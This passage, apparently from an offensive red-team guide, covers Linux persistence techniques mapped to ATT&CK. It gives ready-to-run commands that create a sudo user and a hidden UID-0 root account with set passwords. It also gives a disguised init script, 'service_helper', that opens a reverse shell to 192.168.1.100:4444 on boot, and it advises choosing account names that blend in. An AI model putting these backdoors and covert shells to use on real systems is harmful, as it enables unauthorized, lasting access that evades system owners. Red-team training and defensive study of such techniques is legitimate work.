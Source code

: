 ## Persistence Mechanisms and Tools

Persistence involves techniques used to maintain access to systems despite restarts, credential changes, or other interruptions. Many tools in this book implement persistence techniques from the ATT&CK framework.

### Create Account (T1136)

This technique involves creating accounts on systems to maintain access.

#### Local Account (T1136.001)

Tools for local account creation:

**Standard Linux Commands**:
```bash
# Create a local user with root privileges
useradd -m -G sudo -s /bin/bash operatorx
echo "operatorx:P@ssw0rd123" | chpasswd

# Create a less obvious user
useradd -u 0 -o -g 0 -M -d /root -s /bin/bash hidden_root
echo "hidden_root:SuperSecret123" | chpasswd
```

**Specific ATT&CK Mapping**:
- Local account creation directly implements T1136.001
- Users with elevated privileges enable persistent system access

**Operational Considerations**:
- Use plausible usernames that blend with existing naming conventions
- Consider creating service accounts rather than user accounts
- Document all created accounts for proper cleanup after operations

### Boot or Logon Autostart Execution (T1547)

This involves configuring system mechanisms to automatically execute code during boot or logon.

#### RC Scripts (T1547.006)

Tools for RC script persistence:

**Init Script Manipulation**:
```bash
# Create a persistent init script
cat > /etc/init.d/service_helper << EOF
#!/bin/sh
### BEGIN INIT INFO
# Provides:          service_helper
# Required-Start:    $remote_fs $syslog
# Required-Stop:     $remote_fs $syslog
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Service Helper
### END INIT INFO

case "\$1" in
  start)
    nohup bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' &
    ;;
esac
exit 0
EOF

chmod +x /etc/init.d/service_helper
update-rc.d service_helper defaults
```